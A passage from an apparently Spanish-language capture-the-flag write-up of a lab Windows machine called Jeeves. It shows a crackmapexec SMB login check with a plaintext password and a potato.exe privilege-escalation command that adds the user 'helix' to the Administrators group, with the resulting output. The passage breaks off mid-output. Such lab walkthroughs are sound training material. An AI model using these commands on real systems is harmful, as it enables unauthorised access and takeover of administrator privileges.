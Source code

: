     ```bash
    net user
    
    User accounts for \\JEEVES
    
    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    helix                    kohsuke                  
    The command completed successfully.
    ```
    
- Con `crackmapexec` comprobamos si el usuario `helix` es válido en el sistema.
    
    ```bash
    crackmapexec smb 10.10.10.63 -u "helix" -p  "helix123#$"
    ```
    
    ```bash
    SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
    SMB         10.10.10.63     445    JEEVES           [+] Jeeves\helix:helix123#$
    ```
    
- Nos da el + asique guay, pero estamos buscando que nos ponga también `Pwnd3!`, lo que significa que es un usuario privilegiado.
- Añadimos al usuario `helix` al grupo `Administrator`.
    
    ```bash
    potato.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators helix /add" -l 9999
    ```
    
    ```bash
    $net user helix
    
    User name                    helix
    Full Name                    
    Comment                      
    User's comment               
    Country/region code          000 (System Default)
    Account active               Yes
    Account expires              Never
    
    Password last set            4/17/2022 8:46:04 PM
    Password expires             Never
    Password changeable          4/17/2022 8:46:04 PM
    Password required            Yes
    User may change password     Yes
    
    Workstations allowed         All
    Logon script                 
    User profile                 
    Home directory               
    Last logon                   4/17/2022 8:49:01 PM
    
    Logon hours allowed          All
    